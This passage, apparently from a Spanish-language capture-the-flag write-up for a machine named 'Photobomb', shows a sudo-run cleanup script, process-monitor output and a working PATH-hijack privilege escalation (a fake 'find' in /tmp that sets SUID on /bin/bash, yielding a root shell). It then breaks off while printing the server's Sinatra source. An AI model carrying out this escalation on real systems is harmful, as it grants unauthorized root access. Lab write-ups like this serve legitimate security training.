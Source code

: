```bash
#!/bin/bash
cd /home/wizard/photobomb

# Limpiar los archivos
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# Asigna privilegios de root a todas las fotos
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
Si subimos el [procmon.sh](https://github.com/CUCUxii/Pentesting-tools/blob/main/procmon.sh) al rato detecta el proceso:
```
> /bin/sh -c sudo /opt/cleanup.sh
> sudo /opt/cleanup.sh
> /bin/bash /opt/cleanup.sh
> find source_images -type f -name *.jpg -exec chown root:root {} ;
```
Como el "find" se hace por ruta relativa se puede hacer un secuestro de PATH
```console
# 1. Creamos un find malicioso que nos haga SUID a la bash.
wizard@photobomb:~/photobomb$ echo '#!/bin/sh' > /tmp/find     
wizard@photobomb:~/photobomb$ echo 'chmod u+s /bin/bash' >> /tmp/find
wizard@photobomb:~/photobomb$ chmod +x /tmp/find

# 2. Cambia el PATH para que al buscar "find" encuentre primero el malicioso
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh

wizard@photobomb:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
wizard@photobomb:/tmp$ bash -p
bash-5.0# whoami
root
```

--------------------------
# Extra: Codigo fuente del servidor (Sinatra -> server.rb)

```
# server.rb
require 'sinatra'
set :public_folder, 'public'

# ---- Codigo de la ruta raiz (/) -- # 
get '/' do
  html = <<~HTML
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
```